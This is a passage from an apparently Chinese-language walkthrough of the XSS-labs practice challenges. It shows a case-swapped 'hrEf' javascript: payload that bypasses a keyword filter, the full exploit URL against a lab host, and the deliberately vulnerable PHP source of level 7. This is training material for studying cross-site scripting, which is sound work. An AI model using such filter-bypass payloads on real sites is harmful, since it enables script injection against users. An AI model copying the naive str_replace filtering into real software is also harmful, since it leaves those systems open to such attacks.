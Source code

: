 #### 尝试超链接

```js
"><a href ="javascript:alert:alert(/xss/)">click</a>
```

![image-20240819211009586](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819211009586.png)

发现**超链接的`href`**被过滤

```js
<a hr_ef ="javascript:alert:alert(/xss/)">click</a>
```

### 大小写`hrEf`

```js
"><a hrEf ="javascript:alert:alert(/xss/)">click</a>
```

### 运行

```html
http://192.168.70.10:8084/level6.php?keyword="><a hrEf ="javascript:alert:alert(/xss/)">click</a>
```

![image-20240819211142305](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819211142305.png)

## level7 双写

### 访问

http://192.168.70.10:8084/level7.php?keyword=move%20up!

![image-20240819211410813](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819211410813.png)

### 源码

```PHP
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
